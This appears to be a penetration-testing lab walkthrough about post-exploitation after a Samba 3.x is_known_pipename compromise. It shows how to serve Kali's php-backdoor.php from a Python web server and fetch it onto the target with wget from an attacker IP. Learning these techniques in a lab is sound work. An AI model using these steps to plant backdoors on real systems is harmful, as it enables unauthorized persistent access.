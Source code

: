 
samba 3.x vuln ->  is_known_pipename
after exploit 

Now that we have gained access to the Linux target system, we can exploring the process of transferring files to the Linux target system.

**Step 5:** Transferring files to the Linux target

This process involves utilizing 2 terminal sessions, in order to setup more than one session, you will need to use the **tmux** utility. 
- tmux
	- CTRL + B + C
	- CTRL + B + 0 (change terminal)
	- CTRL + B + aroow down+up (for scrolling)

In this case, we will be transferring the **php-backdoor.php** file found under **/usr/share/webshells/php/** directory on the Kali Linux system.

To begin with, we can navigate to the directory


- cd /usr/share/webshells/php/


We can then start a web server with Python3 in this directory 

- python3 -m http.server 80

We can now navigate back to the command shell session on the target system, navigate to the **/temp** directory. 

- cd /temp


We can now download the **php-backdoor.php** file from the web server being hosted on the Kali linux system 

- wget http://192.196.45.2/php-backdoor.php


As shown in the following screenshot, the **php-backdoor.php** file is downloaded successfully on to the Linux system.